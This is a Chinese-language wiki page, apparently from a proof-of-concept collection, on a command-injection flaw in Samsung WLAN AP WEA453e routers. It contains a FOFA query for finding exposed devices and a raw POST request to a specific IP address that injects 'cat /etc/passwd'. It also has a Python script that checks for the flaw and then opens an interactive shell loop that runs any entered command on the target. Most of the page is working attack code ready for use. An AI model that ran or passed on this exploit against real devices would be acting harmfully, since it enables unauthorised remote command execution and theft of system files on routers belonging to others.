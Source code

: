 <languages  />

FOFA
----

</pre>
title=="Samsung WLAN AP"

</pre>
<translate>

漏洞利用
--------

</translate>

<translate> 發生以下請求： </translate>

    POST /(download)/tmp/a.txt HTTP/1.1
    Host: 175.199.182.152
    Connection: close
    Content-Length: 48

    command1=shell:cat /etc/passwd| dd of=/tmp/a.txt

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: 三星 WLAN AP WEA453e路由器                                  \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/(download)/tmp/a.txt"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            if "root" in response.text and response.status_code == 200:
                print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
                while True:
                    cmd = str(input("\033[35mCmd >>> \033[0m"))
                    POC_2(target_url, cmd)
            else:
                print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_2(target_url, cmd):
        vuln_url = target_url + "/(download)/tmp/a.txt"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            print("\033[36m{} \033[0m".format(response.text))
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

<translate>

參考
----

</translate> <https://mp.weixin.qq.com/s/rse0hnR6C2AfvzWiN7t8Qg>